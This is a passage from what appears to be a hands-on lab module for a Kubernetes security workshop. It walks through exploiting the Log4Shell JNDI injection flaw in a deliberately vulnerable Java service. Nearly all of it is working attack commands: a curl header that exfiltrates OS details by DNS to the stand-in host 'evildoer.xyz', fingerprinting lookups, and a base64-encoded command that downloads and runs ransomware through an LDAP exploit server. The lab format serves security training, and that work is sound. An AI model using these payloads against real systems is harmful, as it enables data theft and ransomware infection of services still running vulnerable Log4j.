 # Exploitation 

Let's exploit the vulnerable java-app workload.

## Get a shell to a running container

```
kubectl exec -it -n attack attack -- bash
```

Try a valid request to start

```
curl -v -H 'X-Api-Version: 1.0' 'java-app.java-app'
```

## Data exfiltration

```
curl -v -H \
  'X-Api-Version: ${jndi:dns://${sys:os.name}.${sys:os.version}.evildoer.xyz}' \
  'java-app.java-app'
```

Here are some other interesting properties you can access to fingerprint the target.

```
${sys:os.name}
${sys:os.version}
${sys:user.name}
${sys:user.dir}
${sys:java.version}
```

![pwn](img/cc-dsg-alerts.png)

## Remote code execution

Create a base64 encoded playload to install our malware

```
echo -n 'wget evildoer.xyz/ransomware;chmod +x /ransomware;./ransomware' | base64
```

```
d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=
```

Append the output to the end of the JNDI lookup url

```
curl -v -H \
  'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/<PUT BASE64 ENCODED PAYLOAD HERE>} \
  'java-app.java-app'
```

So you end up with

```
curl -v -H \
  'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
  'java-app.java-app'

```

![pwn](img/cc-activity-alerts.png)



[Next -> Module 7](mitigation.md)
